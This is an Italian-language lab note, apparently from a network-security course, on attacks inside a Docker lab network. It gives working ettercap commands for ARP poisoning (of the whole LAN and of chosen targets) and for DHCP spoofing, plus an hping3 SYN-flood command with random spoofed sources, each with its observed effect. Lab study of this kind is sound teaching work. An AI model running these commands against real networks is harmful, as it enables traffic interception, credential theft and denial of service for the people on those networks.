 # Offensive net sec
Entro nelle macchine con:

```sudo docker exec -it [ID_MACCHINA]-[IP_MACCHINA] /bin/bash```

# Wireshark
Lo apro con ```sudo wireshark``` e mi metto in ascolto sull'interfaccia br-[hex]

Comandi notevoli:
- ping
- arp -n
- nc -vnlp 8080
- arp -d [IP]

Le ARP entries sono memorizzate temporaneamente dal sistema per evitare di dover chiedere 
ogni volta "Chi ha questo IP?"

# Ettercap
## ARP Spoofing

Lanciando nel man in the middle ```ettercap -T -M arp /// ///```:

-M arp -> attacco man-in-the-middle usando ARP poisoning.

/// /// -> indica: "attacca tutta la rete locale" (cioè, spoofa tutti con tutti).

Ettercap invia falsi pacchetti ARP a tutti i dispositivi nella LAN per convincerli che
 l'attaccante è il gateway. Così, tutto il traffico passa attraverso la macchina 
dell'attaccante che può:

- Sniffare il traffico (es. password, dati).
- Modificare o bloccare i pacchetti.
- Reindirizzare la connessione.

Per attacco mirato:
```
ettercap -T -M arp /10.9.0.6// /10.9.0.5//
#Qui Ettercap spoofa solo tra Bob (10.9.0.6) e Alice (10.9.0.5)
```

Se da Bob (server) lancio iperf -u -s e da alice (client) iperf -u -c 10.9.0.6, il
MITM vede il traffico UDP

## DHCP Spoofing

Obiettivo: fornire falsi IP da parte del MITM

MITM in questo caso finge di essere un server DHCP

Rimuovendo (deconfigurando) eth con ```(Bob) ip a del 10.9.0.6/24 dev eth0```
Bob resta in attesa di un nuovo indirizzo

A quel punto dal MITM (MITM) ```ettercap -T -M dhcp:10.9.0.20-60/255.255.255.0/8.8.8.8```
Inonda la rete dando un range di indirizzi tra 10.9.0.20 a 60

Facendo dhclient da Bob vediamo con:
- ip a: ip assegnato 10.9.0.20
- ip r: usa come gateway il man in the middle

## Attacco DoS SYNflood

Situazione senza attacco:

```sh
iperf -s 	  # BOB	 :  
iperf -c 10.9.0.6 # ALICE:

# [ ID] Interval       Transfer     Bandwidth
# [  3]  0.0-10.0 sec  70.8 GBytes  60.8 Gbits/sec

```

Lancio dal MIM l'attacco

```
hping3 -c 10000 -d 120 -S -w 64 -p 21 --flood --rand-source 10.9.0.6
```

| Opzione         | Significato                                                                 |
| --------------- | --------------------------------------------------------------------------- |
| `hping3`        | Strumento di packet crafting TCP/IP, simile a `ping`, ma molto più potente. |
| `-c 10000`      | Invia **10.000 pacchetti**.                                                 |
| `-d 120`        | Ogni pacchetto ha **120 byte di payload**.                                  |
| `-S`            | Setta il **flag SYN**, come nei pacchetti TCP per aprire una connessione.   |
| `-w 64`         | Imposta il **window size TCP** a 64.                                        |
| `-p 21`         | Destinazione: **porta 21** (FTP).                                           |
| `--flood`       | Invia pacchetti **il più velocemente possibile**, senza aspettare risposte. |
| `--rand-source` | Usa **indirizzi IP sorgente casuali** → rende difficile bloccare l’attacco. |
| `10.9.0.6`      | Indirizzo IP **vittima**.                                                   |

```

Situazione sotto attacco: Velocità di trasferimento diminuita a: 68.7 GBytes  59.0 Gbits/sec
